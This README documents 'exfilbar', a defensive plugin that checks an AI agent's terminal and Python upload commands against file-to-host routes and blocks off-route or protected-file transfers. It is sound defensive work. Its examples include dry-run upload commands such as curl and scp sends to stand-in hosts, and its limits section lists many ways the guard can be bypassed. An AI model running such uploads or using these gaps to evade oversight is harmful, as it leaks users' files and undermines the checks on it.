

# exfilbar

Version 0.5.5 · community plugin for Hermes Agent, not by Nous



Hermes can send a file to the wrong host. exfilbar checks recognized uploads from terminal or Python against your routes and blocks an off-route match.

It is not a sandbox: coverage is limited to recognized syntax in `terminal` and `execute_code`, not general egress enforcement. See [Install](#install) for setup. The nested example below places settings at `plugins.entries.exfilbar.settings` in the active profile's `config.yaml`.

Try the route decision offline, before installing Hermes, from this directory:

```sh
python3 demo/routes.py
```

Same file, two hosts: the registered hook permits the routed HTTPie upload and blocks the off-route attempt. Fixture text only, no commands executed, no network, temporary feed. [Sample output](demo/ROUTE-HOOK-OUT.txt).

```yaml
plugins:
  entries:
    exfilbar:
      settings:
        routes:
          - paths: ["reports/**"]
            to: ["https://uploads.example/reports/*"]
        protected_globs: ["private/**", "*.env"]
        destination_globs: []
        block_unresolved: true
```

## What you see

With the route above, verify without executing a transfer:

```text
/exfil check curl -T reports/weekly.csv https://uploads.example/reports/weekly.csv
/exfil check curl -T reports/weekly.csv https://elsewhere.example/up
```

The first returns PASS; the second returns BLOCK. These are dry runs: neither adds a feed row.

1. Upload `reports/weekly.csv` to `https://uploads.example/reports/weekly.csv`. The matching route permits the recognized transfer silently.
2. Send the same file to `https://elsewhere.example/up`. The hook blocks the tool call and names `route 1` and the allowed host `uploads.example`.
3. `/exfil routes` lists your routes. `/exfil check <command>` explains a dry run. `/exfil status` reads the session feed. `/exfil verify` checks the profile's decision history offline. `/exfil demo` shows both decisions and an isolated synthetic feed.

Desktop adds `exfil · N out · M blocked` for the focused session, red when its retained feed contains a block. Click it to open the Exfilbar page: your routes on top (which files may go to which hosts), then the session's attempts, each with an allowed or blocked chip, its route number and, for a block, the reason on one line. The web dashboard also has an Exfilbar tab with a session selector. Feed rows show the decision once, such as `allowed · route 1` or `blocked · off route; allowed hosts: uploads.example · route 1`. Both Time columns use local HH:MM:SS, adding the local date for other days; hover for the original ISO timestamp.

## Install

Hermes 0.23.0 or later. Allow roughly 5-9 minutes with Hermes already installed; this is an estimate, not an installed-run measurement.

1. For the offline rehearsal, clone this repository and enter its root:

   ```sh
   git clone https://github.com/quotumorg/exfilbar.git
   cd exfilbar
   python3 demo/routes.py
   ```

   The demo takes seconds, uses temporary storage and needs no Hermes or provider. Installing alone does not put `demo/routes.py` in your current directory.

2. Install and enable the backend plugin:

   ```sh
   hermes plugins install quotumorg/exfilbar --enable
   hermes plugins list
   ```

   Confirm `exfilbar` is enabled. This installs the published repository revision; the local checkout's rehearsal does not install that checkout.

3. Merge the nested YAML above into the active profile's `config.yaml`, preserving existing plugin entries. The exact settings key is `plugins.entries.exfilbar.settings`. Use workspace-relative paths or configure `workspace_root` as described below.
4. Restart the gateway used by Desktop so the API and settings are loaded. Restart an existing CLI chat too. In Desktop, enable Exfilbar under Capabilities > Plugins; rescan if it still has a stale copy. Focus a session on that same connection/profile.
5. Run `/exfil routes` in that session and confirm `reports/**` points to `uploads.example`. Run the two `/exfil check` examples above. Expect PASS then BLOCK. If `/exfil` is missing, check backend enablement and restart; if routes differ, check the active profile and settings nesting.
6. To see a real blocked row, follow the [inert first-block fixture](tests/fixtures/first-block.txt) in the focused session. It requires a `terminal` tool dispatch. `/exfil check`, `/exfil demo` and the offline script never populate the real feed. Then run `/exfil status` or open the Desktop chip; its feed refreshes every three seconds. An empty feed can mean no covered tool was dispatched or a different session is focused.

The installed dispatch walkthrough is for the operator to run. The shipped offline demo and tests do not establish installed Desktop behavior. For the separate protected-file rehearsal, run `python3 demo/attack.py` from the checkout; it also inspects fixture strings without executing transfers.

## Limits at a glance

This is not an egress sandbox. It recognizes a bounded shell/Python subset. Scripts, hidden call targets, copied secrets, symlinks, browser/MCP tools and later sibling-hook argument modifications can bypass it. Unresolved recognized transfers block by default and can reject legitimate work. Only `terminal` and `execute_code` are inspected. No contents are read and no cross-call provenance is tracked.

Enforcement and storage use stdlib plus the public Hermes storage helper. The optional API uses host-provided FastAPI; both UIs use host SDKs. No transfer execution, external network, provider credentials, telemetry or subprocesses. See [catalog readiness](CATALOG.md) for the draft and remaining admission gates.

## Alongside the Security plugin

The official Security plugin (hermes-security) reviews repository code. Exfilbar parses recognized terminal and submitted Python transfer syntax before dispatch.

Historical project notes dated 2026-11-09 report a routed pass and off-route block with Hermes v0.23.0 and hermes-security 0.1.2 at `85e835c`. Those notes disagree on the Exfilbar pin, 0.5.2 or 0.5.3, and no captured co-install log or reproducible co-install test ships here. The reported absence of a Security `pre_tool_call` hook is not proof of non-interference. Co-install behavior for 0.5.5 is unverified.

## Use and configuration

`/exfil check scp private/client-export.csv upload.example:incoming/` returns a **dry run** explanation. `/exfil demo` replays synthetic fixtures with no execution. `/exfil status` shows the persisted session feed. Checks and demos never add rows to the real feed.

Configure `plugins.entries.exfilbar.settings` in Hermes:

```yaml
protected_globs: ["private/**", "*.env"]
destination_globs: []
block_git_push: false
block_unresolved: true
integrity_hmac: false
workspace_root: "."
```

Protected paths use case-sensitive Python `fnmatchcase` on lexical workspace-relative POSIX paths. `*` can match `/`, so `*.env` includes nested paths. Destination globs retain their case-sensitive raw-operand deny behavior, including URL or remote path.

`routes` uses the same `fnmatchcase` glob family. A route is numbered by its 1-based settings position, such as `route 1`. Display labels use plain words so Desktop markdown preserves the number. Existing ledger route metadata is displayed with the same labels without rewriting stored rows. Its `paths` are normalized like protected paths. Its `to` URL patterns match scheme, authority (including port) and path separately, so a host wildcard cannot consume a slash. URL userinfo, query and fragment are ignored for route matching and hidden in output. Scheme and authority spelling remain case-sensitive. Existing shell uncertainty still applies: `?` in a URL can mark the transfer unresolved even when the route matcher accepts its scheme, host and path. For non-URL `host:path` operands the host and path match separately, including any SSH username in the host operand. Use a full remote pattern such as `user@uploads.example:reports/*`. A lone `*` allows any destination; use it only intentionally. These are lexical patterns, without DNS, redirect, proxy or client-configuration inspection.

Precedence: **protected_globs deny > routes > destination_globs deny > default**. A protected file never gains an exemption. All routes covering a source must permit every parsed destination; overlapping routes intersect. An off-route destination blocks even with `block_unresolved: false`. If a transfer mixes routed and uncovered sources, uncovered sources still receive destination denies. Unresolved evidence never earns a route exemption and follows `block_unresolved`; git's optional operation block remains independent. Every record in a blocked compound tool call is shown as blocked because the whole dispatch is suppressed.

For `execute_code`, protected/destination checks retain submission-wide co-occurrence. A route pass is limited to recognized direct requests/httpx HTTP calls with a literal URL and inline literal `open`/Path reads. Aliases recognized by the existing inspector work; indirect calls, variable payloads, dynamic URLs/reads and other client forms remain unresolved. This is syntax recognition, not runtime data flow. Uncovered Python network calls retain the existing unresolved behavior.

Set `workspace_root` to the absolute workspace path in the **terminal namespace**, such as `/workspace`, for absolute paths and `terminal.workdir`. The default `.` assumes relative commands start at the workspace root. The hook cannot observe an implicit persistent terminal current directory. Keep that assumption true or supply explicit `workdir`. Paths outside the root are unresolved. Symlinks are never resolved.

Unresolved recognized transfers block by default. Explicitly setting `block_unresolved: false` allows them but leaves known protected-path matches blocked. Invalid settings, malformed covered-tool arguments and inspection exceptions return a blocking directive with no exception details. At most 128 routes are accepted, each with nonempty paths/to lists. Each rule list allows at most 128 nonempty patterns of 512 characters each; workspace root and workdir are limited to 4096 characters. Root must be static. Dynamic workdir makes sources unresolved. `block_git_push: true` blocks by operation, without claiming file or object counts.

## Decision integrity

Newly recorded decisions form an append-only SHA-256 chain in `egress.db`, separate from the evicting session feed. Each record stores `prev`, its own hash and a canonical payload: UTF-8 JSON with sorted keys, ASCII escapes and no whitespace. The payload includes a format version, a per-install random id, the legacy count, consecutive index, feed row id and the existing minimized decision metadata. The first `prev` hashes the version, install id and legacy count. The same SQLite transaction appends the history, updates the head and writes the feed. The existing writer queue and SQLite's immediate transaction keep concurrent writers linear. History rows are never evicted by the plugin.

Run `/exfil verify` in Hermes, or from this checkout without Hermes running:

```sh
python3 -m exfilbar verify --data-dir /path/to/plugin-data/exfilbar
```

The CLI requires an explicit directory, uses read-only storage and never creates a database or key. It exits 0 for intact, 1 for broken, 2 for unavailable. For two newly recorded decisions, reproduced by `python3 demo/verify.py`:

```text
2 records, chain intact
```

Verification streams the complete history, checks the committed head and compares retained feed rows with their original records. A failure reports the first broken 1-based index. An existing ledger remains readable before migration; its retained legacy rows are left unchanged. The chain begins at the first new record. Verification reports how many legacy records precede it and labels them unverified. Previously evicted legacy rows cannot be recovered.

Set `integrity_hmac: true` to authenticate new records with HMAC-SHA-256. On the first sealed write, a random 32-byte `integrity.key` is created in the plugin's own data directory with owner-only read/write permissions. It is never printed or placed in the repository. Once sealing begins, future records remain sealed even if the setting is later disabled. Earlier unsigned records remain unsigned. Keep the key with the database when verifying offline; a missing, malformed or wrong key fails verification, and an existing sealed chain never silently creates a replacement key. No provider credentials or external signer are used. Use CLI `--require-hmac` when you expect a sealed history, so an unsigned replacement cannot satisfy verification. `/exfil verify` requires HMAC when the current setting is enabled. This expectation belongs outside the database being checked.

HMAC proves integrity to the owner of the key, not to a third party. An unsigned chain detects edits but anyone who can rewrite the entire database can recompute it. A key owner can also forge authenticated records. Neither mode proves dispatch or delivery, nor detects replacing the entire store and key, restoring a complete older snapshot, or deleting the store without an independently retained checkpoint. Protect backups accordingly.

After `/exfil verify`, the page's existing status area can show `chain intact · N` for that profile's complete history. This result is cached only in the verifying backend process and only for the unchanged database and key file. Any change clears the status until another explicit verification. Polling never scans the full history. CLI verification does not populate a running gateway's cache. Full verification takes a read snapshot and can temporarily contend with writers; run it offline for a quiet store.

The history retains the same minimized path/host/rule metadata beyond feed eviction. Its growth shares the database's 8192-page allocation cap. Reaching the cap fails closed on new recorded calls; it never silently discards chain records. Back up or remove the data directory deliberately, understanding that starting a new store starts a new install anchor. This is a local integrity record, not permanent externally witnessed evidence.

## Desktop, dashboard and API

Minimum Hermes: **0.23.0**, using its public plugin storage helper, slash-command context, Desktop SDK and dashboard API mount. Manual observation dated 2026-11-09 (0.5.3), supplied from installed Hermes v0.23.0 with Desktop: `hermes plugins install` passes the install scan, the status chip, feed page and `/exfil` commands work. Other Hermes versions are untested.

The unified package includes `desktop/plugin.js`. After local installation, enable the Python half in `plugins.enabled`, restart the gateway to mount the API, then enable Exfilbar in Desktop's Capabilities > Plugins. Rescan if Desktop is holding a stale copy. The Desktop half defaults off, has no build step and uses only `@hermes/plugin-sdk` and `react/jsx-runtime`. It reads the focused durable session and its connection-qualified owner. Keys include the actual connection and profile, plus the session for feeds. Because the public REST API uses ambient scope, reads are disabled until that owner matches the active gateway. Ownership is checked immediately before dispatch and after each response; stale responses are discarded. The page names its connection/profile. Missing owner APIs or ambiguous owners show an explicit unavailable state, with no fallback to another profile. When no session is focused it shows `exfil · no session`; backend errors show `exfil · unavailable`.

The separate web-dashboard entry is `dashboard/dist/index.js`, registered through `window.__HERMES_PLUGIN_SDK__`. Its session selector defaults to the most recently inspected session and shows opaque session digests and timestamps. It does not guess a Desktop active session.

Read-only API under Hermes authentication and plugin enable/profile gates:

- `GET /api/plugins/exfilbar/feed?session_id=<durable-id>` returns `{events, out, blocked, limit, notice}`, plus optional `chain` metadata for a cached explicit verification of the unchanged store.
- `GET /api/plugins/exfilbar/sessions` provides profile-operator access to all retained profile sessions, not per-user isolation. Hashes are selectors, not authorization. It returns at most 32 `{key, time}` session selectors.
- `GET /api/plugins/exfilbar/routes` returns `{known, updated, valid, routes}` for the page's routes card: each route's position, path globs and allowed hosts. Hosts are scheme-free hostnames; URL paths, queries, credentials and remote paths are dropped. The plugin mirrors this summary into its data folder whenever Hermes loads changed settings; a routes-mirror exception never changes the computed decision; a feed write failure blocks the call. Invalid settings retain the last valid routes and timestamp with `valid: false`. The card labels the host summary, omitted ports/paths, truncation counts and last loaded time.
- `GET /api/plugins/exfilbar/feed?key=<64-hex-digest>` reads a selected feed. Both selectors together or an invalid selector return 400. An unavailable database returns 503 with a temporary-unavailable message and no internal details; both UIs retry automatically.

There is no API for commands, arbitrary file reads, changing policy or approving transfers. `/exfil demo` uses fixed synthetic timestamps and temporary storage, so repeated output is byte-identical and does not contaminate any real feed. Its two route fixtures are recorded in `demo/ROUTES-OUT.txt`.

## Coverage

| Family | Recognized syntax and decision |
| --- | --- |
| scp / rsync | local source(s) to `host:path` or `rsync://host/module` |
| curl, including FTP | `-F name=@file`, `--form`, `-T file`, `--upload-file`, `-d @file`, `--data-binary @file`, `--data-urlencode @file` or `name@file`, `-H @file` |
| curl stdin | `-T -` is unresolved unless an upstream protected path supplies a specific blocking reason |
| wget | `--post-file`, `--body-file`, including `--method=PUT` |
| HTTPie http / https | `@file`, `field=@file`, `field:=@file`, multipart `field@file` with optional `;type=` / `;filename=` metadata; explicit URL syntax |
| nc / netcat / ncat | `< file` and pipeline sources; unknown client stdin blocks; listeners with explicit input are checked; bare listeners pass |
| socat | file addresses (FILE or read-only OPEN) to TCP, TCP4 or TCP6 destinations; other forms unresolved |
| ssh | redirected file or piped read to remote command, including `cat > x`; other invocations unresolved |
| sftp | batch `put` blocked conservatively; batch files/heredocs are unresolved, never opened |
| mail / mailx | pipeline or redirected input; unknown sources unresolved |
| pipelines | lexical reads by cat/base64/gzip/xxd/openssl enc/tar/zip carried across intermediate stages to recognized outbound families |
| execute_code | submitted Python calls through requests/httpx/urllib/socket/ftplib/paramiko/http.client/smtplib/aiohttp/websockets plus protected path literals; static check only |
| git | opt-in `git push` operation rule |

Quoted spaces and common attached/equals options are recognized. Comments, conditionals, grouping and ambiguous quote/control syntax can cause conservative blocks. Literal fd duplication/closure (`2>&1`, `1>&2`, `2>&-`, `0<&3`) and output redirects to literal `/dev/null` are ignored for transfer resolution, including `>/dev/null 2>&1`. Redirects that write files remain visible as unresolved syntax. Unknown options, dynamic sources, substitutions, wrappers, unsupported redirects, explicit recursion and earlier directory changes remain unresolved and block by default. Escaped newlines in recognized transfers and common wrappers such as time/nohup are conservative unresolved syntax. Mail/mailx attachment flags are ambiguous across dialects and are unresolved, with their operand also checked as a candidate file. No shell expansion or file inspection occurs. Unknown pipeline producers feeding recognized transfers also block by default.

Remote-to-local scp/rsync, rsync dry runs, local copies, git pull, ordinary wget downloads, `curl -o` downloads, literal `--form-string` and bare netcat listeners pass. SSH sessions, SFTP downloads, unsupported HTTPie flags and ordinary client network calls without a known literal source can be conservatively blocked. Recognized curl/wget uploads check every destination operand. Curl upload redirects are unresolved because the final destination is unknown. Destination rules apply to recognized transfer records, not all traffic or ordinary downloads. The policy is designed around a bounded subset, not full command compatibility.

## Non-terminal tool audit

All source references below are relative to the supplied Hermes 0.22.7 checkout.

| Surface | Source evidence | Current treatment |
| --- | --- | --- |
| Python execution | `tools/code_execution_tool.py:931` names `execute_code`; `:952-964` reads `args.code`; `tools/code_kernel.py:48-61` retains globals and executes submitted code | inspect `execute_code`'s `code` argument before dispatch |
| Browser | `tools/browser_tool.py:1-5` is a retired compatibility stub; current `tools/browser_use_cli.py:990-1002` exposes `browser_exec(code)`; `:950-955` exposes raw `cdp`; `:600-605` sends code to the CLI | uncovered; raw CDP can request file-input assignment (inference from raw CDP capability), and browser JS can transmit inline data; no dedicated browser-upload policy claimed |
| MCP | `tools/mcp_tool_registration.py:384-386` registers dynamic tools; `tools/mcp_tool_handlers.py:522` forwards argument objects to `session.call_tool` | uncovered; upload capability depends on the connected server, not a built-in upload method |
| Messaging and attachments | `tools/send_message_tool.py:28-30` explicitly says send_message is not registered as an agent-callable tool; `:237-240` extracts media paths; `:276-281` dispatches media | delivery helpers used by cron/CLI/notifier/opt-in MCP, outside this hook's covered names |
| Kanban artifacts | `tools/kanban_tools_schemas.py:327-349` accepts inline base64 for `kanban_attach`; `:260-263` describes delivery to a subscribed chat | uncovered; bytes have no original protected pathname, and later notification can deliver them |

The Python inspector parses AST without executing it. It recognizes direct imports, import aliases, from-imports, simple client/function aliases and annotated aliases. Dynamic import, exec/eval/compile/getattr, star imports and recognized process-launch calls (including os exec/spawn variants) are conservatively unresolved. These checks do not make arbitrary Python safe. A network-family call and a protected string anywhere in the same submission block with `protected path rule (static code text)`. This is deliberate co-occurrence, not data-flow analysis: a GET plus an unrelated protected literal also blocks. Network calls with no known protected literal remain unresolved and block by default, except the narrow route-pass form described above. Pure local file code and unused network imports pass. Malformed or oversized code is unresolved. Code is capped at 32768 characters and 8192 AST nodes; alias propagation is capped at 16 rounds and attribute traversal is iterative. Literal URL destination rules use co-occurrence too, not inferred request arguments. Default root assumptions also apply to code; the hook cannot observe the persistent kernel cwd.

## Comparison with airlock and other guards

The supplied airlock documentation describes owner approval for uploads and remote transfers, and for new/untrusted hosts after reading untrusted content. Exfilbar routes recognized transfers per file: a covered file can go silently to its configured destinations; an off-route destination blocks with a reason. These describe different policy choices without a superiority claim.

Offline research describes blastradius as destructive-command explanations and camel-guard as prompt-injection defense. Those implementations were not available for verification. hermes-security is covered in the section above. Exfilbar acts on pending transfer arguments and user-protected paths. This is positioning only; no claim of novelty, superiority or missing competitor features is made.

Core already detects credential-file or secret-variable curl/wget bodies and upload pipes (`tools/approval_detection.py:356-363`), plus force pushes (`:465-466`). Exfilbar adds user-chosen ordinary paths and the bounded transfer families above. Core also guards whole Python submissions according to approval context (`tools/approval.py:1251-1282`); Exfilbar adds a static path-specific explanation. It does not replace or claim absence of those guards.

Terminal supplies command and optional workdir (`tools/terminal_tool.py:1620-1641`). Pre-tool blocking is supported (`hermes_cli/plugins.py:1907-1927`) and applied before execution (`agent/tool_executor.py:661-675`, `:701-707`). Manifest declarations follow `hermes_cli/plugins_manifest.py:31-39`, `:142-160`; slash commands register through `hermes_cli/plugins.py:649-674`. Catalog records are a separate schema (`plugin-catalog/refusal.yaml:1-4`).

## Limits and disclosures

For covered syntax, Exfilbar returns only a `block` directive for a denial, or no directive for a pass. It never returns `approve` or requests an approval escalation. With the plugin enabled and its hook invoked, recognized protected-path, off-route and default-unresolved denials therefore remain blocks on `hermes -z`, cron with `cron_mode: approve`, and `--yolo`. Hermes auto-approval of approval escalations does not turn a `block` into a pass. Policy/argument errors and feed-write failures also return `block`. An explicit `block_unresolved: false` still allows unresolved transfers as documented; it does not disable known protected-path or resolved off-route blocks. No `on_unattended` setting is needed because there is no approval path. `tests/test_integration.py` drives the registered hook with unattended context through the real Hermes reducer and asserts the directive, with an auto-approval gate that must never be reached. These are source-level tests, not installed unattended-session runs. The coverage and host-adapter failure limits below still apply.

This is a bounded command policy, not comprehensive DLP or a sandbox. Terminal Python/script execution, hidden call targets in code, aliases, hidden wrappers, shell functions, process substitutions, background sessions, and transfers through uncovered tools remain outside coverage. The direct computed `__import__` example is blocked. Indirection through containers, custom classes, dynamically recovered builtins and persistent-state call aliases can still evade recognition. No cross-call provenance is tracked in the persistent Python kernel. Literal non-file bodies, literal headers, and inline data are outside the path policy. A directory without a trailing slash cannot be identified without inspecting the terminal filesystem. No exact directory or git payload counts are claimed. A copied or renamed secret at an unprotected path can pass. Archive pipelines remain unresolved because recursion and directory switches cannot establish a complete payload. Pipeline readers collect candidate operands, so an archive output name can cause a conservative false positive. Pipeline topology and redirection semantics are not fully interpreted. Bare listeners are allowed. Explicit file or pipeline input is checked, including unknown pipeline producers. Input sent later through a session or interactive terminal is still uncovered.

Normalization is lexical only. It does not inspect symlinks, mounts, containers or remote filesystems. Output strips URL credentials, queries, and remote paths from destinations and URL-shaped matched rules. URL rules display only their scheme and host; the full pattern remains in local configuration. Filenames, rule patterns and hostnames remain metadata: avoid embedding credentials there. A full command or file content is never retained in the session feed. Block responses include bounded matched path/rule metadata and the host may retain those responses in its transcript.

Sibling callbacks see original args; Hermes merges `modify` directives afterward (`hermes_cli/plugins.py:1922-1943`). A sibling can turn an allowed command into an outbound command after inspection. The regression test demonstrates this. The outer executor hook adapter also falls through on exceptions (`agent/tool_executor.py:674-675`), so this is not an independent security boundary.

Runtime reads and writes its own plugin data directory and uses isolated temporary storage for the synthetic demo. It never reads source file contents. No external network, subprocesses, external file reads, background processes, installed third-party packages, provider credentials or telemetry. Optional local HMAC uses only the plugin-owned integrity key. UI requests use the authenticated Hermes backend; the Desktop query and dashboard timer poll every three seconds while mounted (the routes card every ten seconds) and stop with their host lifecycle. The same database keeps the latest routes summary (path globs and hostnames) for the routes card. Commands are capped at 32768 characters, tokenization at 4096 tokens and pipelines at 128 pipe operators. Exceeding a cap is unresolved. At most 32 sessions retain 128 recent recognized transfer records each in `<Hermes home>/plugin-data/exfilbar/egress.db`. Readers and writers resolve the active profile on every call through the documented `plugins.plugin_storage.plugin_data_dir` helper. A read may create an empty plugin directory, but never a database file, write lock or schema. Session identifiers are hashed in full (up to 4096 characters), preventing the old 128-character prefix collision. Missing/invalid session IDs are not pooled; they do not write feed rows. Reload preserves the feed. Old feed sessions and rows are evicted by most recent write; chained history remains. Local copies, downloads and uncovered tools do not create rows.

Each record holds UTC time, covered tool name, up to 32 workspace-relative source paths (256 characters each, with a truncation flag), scheme+host destination, decision and bounded rule metadata. Unknown sources/destinations are labeled unresolved/unknown. Destination ports and remote/URL paths are omitted from the feed. The data folder is owner-only and the database is owner read/write. SQLite secure deletion clears evicted feed rows, while the same metadata remains in the append-only history; the database has an 8192-page allocation limit. Writers serialize setup and transactions per database within each process. Event rows are prepared before admission, and up to 16 queued records share a transaction within one database. Different sessions in that database can share a batch; different profile database paths have separate queues. Each normally returning caller waits for commit or rollback; one bad row rolls back the whole batch and blocks every affected call. Expired and interrupted pending requests are removed before writing. An interrupted transaction owner rolls back its batch and wakes other callers with a storage error. The first writer queue entry starts a 75 ms admission allowance, capped at 85 ms from hook entry to leave room within the 100 ms per-call timing reference. Routes publication, invalidation retries and event writes share that deadline; inspection before the first queue entry consumes only the overall hook allowance. Up to 16 simultaneous writers are covered by the local regression tests; heavier contention can exhaust admission and fail closed. Each connection's SQLite busy timeout is capped at 25 ms and reduced to the remaining admission budget. Schema creation is one transaction. Gates are released on failure and idle profile paths are not retained. Readers open an existing database in read-only mode with a 1 s lock timeout and never initialize schema, change permissions or set write pragmas. An absent or schema-free database shows an empty feed without creating files or repairing schema; partial schemas and real read errors remain unavailable. Rollback journaling is retained: WAL sidecars would require separate size and secure-deletion handling. Readers can coexist with a reserved writer; an exclusive lock can temporarily delay them. A write failure blocks the inspected call without exposing exception details. Failure to read the feed returns an unavailable state. Retained counts can shrink on eviction. This is inspected intent, not a packet capture, byte counter, delivery receipt or externally witnessed audit evidence. File paths, hostnames and user-chosen rule metadata may themselves be sensitive and survive plugin removal in the data directory.

Admission deadlines and SQLite busy timeouts do not bound transaction execution, commit, filesystem I/O or thread scheduling. Admitted callers wait for the transaction outcome, so the 100 ms check is a local timing reference, not a hard maximum. Interrupting an already admitted caller or abandoning a running hook does not revoke its write: a host timeout or cancellation can block dispatch even though inspected intent later commits. The feed is not evidence of dispatch.

## Offline verification and 90-second rehearsal

From the plugin root:

```sh
HERMES_SOURCE=/path/to/hermes python3 -m unittest discover -s tests
python3 demo/routes.py
python3 demo/run.py
python3 demo/attack.py
HERMES_SOURCE=/path/to/hermes node --experimental-vm-modules --test tests/test_desktop.mjs
```

Python tests run in one process. The [concurrent-writer regressions](tests/test_concurrent_writers.py) exercise 20 fresh databases with 16 synchronized writers over three rounds, concurrent registered-hook decisions and slow inspection followed by transient contention. [Multipart and inspection-budget tests](tests/test_multipart_and_budget.py) and [read-only feed tests](tests/test_readonly_feed.py) cover their respective limits. The suite covers all transfer families, direction and flag negatives, quoted strings, globs, traversal, malformed/dynamic syntax, bounded output, registrations, settings, and dispatcher suppression.

The install-scan regression test calls the real `tools.plugin_guard.scan_plugin` from `HERMES_SOURCE` on this whole directory and requires a safe verdict with no critical/high findings. It skips with a reason when that variable is unset. Use Python 3.11+ for the Hermes v0.23.0 scanner. Demo command strings remain readable under `tests/fixtures/`, where Hermes recognizes inert test data.

The integration harness imports the real dispatcher via `sys.path` and loads unmodified reducer AST definitions directly from the supplied `plugins.py`. Historical 0.22.7 harness note (recorded here 2026-11-09): the full manager could not import in that stdlib environment because `ruamel` was missing. Only test dependency plumbing supplies lifecycle routing and disables callback timeouts. Runtime code never imports internals or patches core. The execution counter stays zero for a blocked upload and increments once for local cp. This is source-level integration, not an installed-Hermes end-to-end test.

Set `HERMES_SOURCE` to a prepared source checkout, or place it at `../hermes` relative to this plugin directory. No private workspace layout is assumed. Historical checks (0.22.7 snapshot, recorded here 2026-11-09) used the supplied Hermes 0.22.7 snapshot. Current checks (2026-11-09) use the local v0.23.0 source checkout; neither source harness is installed-host testing. A missing checkout fails rather than skips. The stdlib catalog tests execute genuine static validation functions from the supplied checkout, with a restricted reader for this bundle's YAML subset. The draft deliberately fails SHA validation until its placeholder is replaced. This is not full admission. Future admission must run `hermes plugins validate` and Plugin Doctor in a prepared environment. Full catalog validation has not been claimed; no dependency install is performed here. Source-level tests also preserve the sibling-modify bypass.

`demo/OUT.txt` records the deterministic fixture/dry-run table: 0-12s synthetic `private/client-export.csv`; 12-30s scp block; 30-45s rsync and multipart block; 45-58s local copy and download pass; 58-70s nc block and listener pass; 70-80s git operation rule; 80-89s offline verification and limits. No shell or network execution occurs. The fixture is `demo/workspace/private/client-export.csv`; command data lives in `tests/fixtures/cases.json`.

`demo/attack.py` reads `tests/fixtures/attack.json`, calls the actual registered hook on fixture strings and writes deterministic `demo/ATTACK-OUT.txt`. The ten rows contain seven blocked attacks, a legitimate nc listener and two additional allowed controls. Every blocked row prints the reason and matched glob. This is a text rehearsal suitable for capture, not a recorded live attack or a rendered video. Keep any submitted recording under 90 seconds. The fixture output contains no test-count claim; run the suite above for the current result.

Timing reference (2026-11-10): `tests/test_timing.py` uses a 100 ms per-hook-call ceiling on this machine class. Slow CI may explicitly set `EXFILBAR_TIMING_LIMIT_MS`; the default remains 100. Transfer inspection blocks conservatively above 1024 source/destination pairs or a weighted 8192-comparison budget that charges wildcard syntax, including submitted Python. Cold-pattern work also blocks above 65536 distinct pattern characters. These are conservative inspection limits, even with unresolved transfers explicitly allowed. A policy exceeding the one-transfer budget is not mirrored: its previous summary is marked unavailable until settings recover. Each distinct source is normalized once during policy decisions, and only the retained event tail is constructed.

Desktop reads share the SDK query cache: chip and page use the same feed key, with feed polling every 3 seconds and routes every 10 seconds while observed. There is no plugin-owned timer. The Node tests use the host checkout's already-installed TanStack Query core for cache isolation, in-flight switches, observer deduplication and disposal. This is a source/SDK harness, not installed Desktop verification or a visual test. The full-store Python benchmark reads routes, feed and session selectors with 32 sessions x 128 events and a concurrent writer; its timings are local reference measurements, not a service-level guarantee.

## 0.5.5

Harmless fd redirects preserve upload routes. New decision records have an append-only hash chain, optional local HMAC and offline verification, with legacy migration and unchanged feed layout. Unattended denials are documented and tested as blocking directives. See [CHANGES.md](CHANGES.md).

## 0.5.4

Connection-qualified Desktop reads with owner mismatch states and stale-response guards. HTTPie multipart file items now follow protected paths and routes. Cold glob compilation has a work budget. `python3 demo/routes.py` shows the same-file/two-host decision through the registered hook with an isolated feed.

Polling now uses read-only database connections with a 1 s lock timeout; write-only setup stays off the read path. Concurrent writers share a per-database gate and a 75 ms allowance starting at the first queue entry, capped at 85 ms from hook entry, with SQLite waits capped at 25 ms. Genuine write failures still block; the hook timing reference remains 100 ms. Temporary read failures show a retrying unavailable state in Desktop and the dashboard.
